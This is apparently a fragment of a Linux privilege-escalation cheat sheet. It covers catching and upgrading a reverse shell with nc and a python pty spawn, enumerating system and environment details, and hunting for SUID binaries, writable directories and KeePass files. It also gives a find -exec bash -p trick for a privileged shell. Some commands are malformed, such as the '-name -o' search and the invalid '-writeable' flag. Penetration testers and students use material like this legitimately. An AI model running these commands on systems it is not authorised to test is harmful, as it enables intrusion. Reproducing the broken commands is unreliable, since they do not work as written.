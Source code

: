     - [sudo \< v1.28 - @sickrov \[PrivEsc\]](#sudo--v128---sickrov-privesc)
    - [Docker Breakout \[PrivEsc\]](#docker-breakout-privesc)
    - [Linux Enumeration Tools \[PrivEsc\]](#linux-enumeration-tools-privesc)

## Stabilize Shell  

- Listen to reverse shell:

```bash
rlwrap nc -lvnp 443
```

- Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

## Copy tools to the target

*See file transfer*

## Enumerate

### System Info

- System specific info

```sh
cat /etc/issue 
cat /etc/os-release
cat /proc/version 
uname -a
arch
id
```

- Environment variables:

```sh
cat /etc/profile
cat /etc/bashrc
printenv
env
```

### Permissions
` Suspicious files
```bash
# Files with SUID bit
find / -perm -u=s -type f 2>/dev/null
# Directories with writable permissions
find /var -writeable -type d 2>/dev/null
# Look for useful files
find / -type f -name -o -name "*.txt" -o -name "*.kdbx" -o -name "*.zip" 2>/dev/null
# Files that may give you have +x
find /home/<user> -exec "/usr/bin/bash" -p \;
find /home/anita -exec "/usr/bin/bash" -p \;
# Manually Enumerating Capabilities
/usr/sbin/getcap -r / 2>/dev/null
# List commands that user can run as sudo  - >  GTFObins
sudo -l
```
